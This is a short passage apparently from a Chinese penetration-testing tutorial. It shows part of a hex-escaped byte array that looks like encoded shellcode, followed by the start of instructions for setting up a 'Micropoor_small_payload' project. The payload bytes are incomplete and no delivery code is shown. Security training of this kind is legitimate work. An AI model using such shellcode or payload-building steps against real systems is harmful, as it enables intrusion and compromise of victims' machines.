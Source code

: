 ```code
"\\x95\\x41\\xd1\\x07\\x1d\\x01\\x2f\\xa8\\x5d\\x0b\\xf4\\xfc\\x0d\\x23\\xdd"
"\\x7c\\xc6\\xb3\\xe2\\xa8\\x72\\xbe\\x74\\x93\\x2a\\xbf\\x81\\x7b\\x28\\xc0"
"\\x89\\x4e\\xa5\\x26\\xd9\\xe0\\xe5\\xf6\\x9a\\x50\\x45\\xa7\\x72\\xbb\\x4a"
"\\x98\\x63\\xc4\\x81\\xb1\\x0e\\x2b\\x7f\\xe9\\xa6\\xd2\\xda\\x61\\x56\\x1a"
"\\xf1\\x0f\\x58\\x90\\xf3\\xf0\\x17\\x51\\x76\\xe3\\x40\\x06\\x78\\xfb\\x90"
"\\xa3\\x78\\x91\\x94\\x65\\x2f\\x0d\\x97\\x50\\x07\\x92\\x68\\xb7\\x14\\xd5"
"\\x97\\x46\\x2c\\xad\\xae\\xdc\\x10\\xd9\\xce\\x30\\x90\\x19\\x99\\x5a\\x90"
"\\x71\\x7d\\x3f\\xc3\\x64\\x82\\xea\\x70\\x35\\x17\\x15\\x20\\xe9\\xb0\\x7d"
"\\xce\\xd4\\xf7\\x21\\x31\\x33\\x84\\x26\\xcd\\xc1\\xa3\\x8e\\xa5\\x39\\xf4"
"\\x2e\\x35\\x50\\xf4\\x7e\\x5d\\xaf\\xdb\\x71\\xad\\x50\\xf6\\xd9\\xa5\\xdb"
"\\x97\\xa8\\x54\\xdb\\xbd\\x6d\\xc8\\xdc\\x32\\xb6\\xfb\\xa7\\x3b\\x49\\xfc"
"\\x57\\x52\\x2e\\xfd\\x57\\x5a\\x50\\xc2\\x81\\x63\\x26\\x05\\x12\\xd0\\x39"
"\\x30\\x37\\x71\\xd0\\x3a\\x6b\\x81\\xf1";
```
![](../do/media/c02510e309ce675fbb9967d140f9349a.jpg)

建立Micropoor_small_payload工程，配置如下：
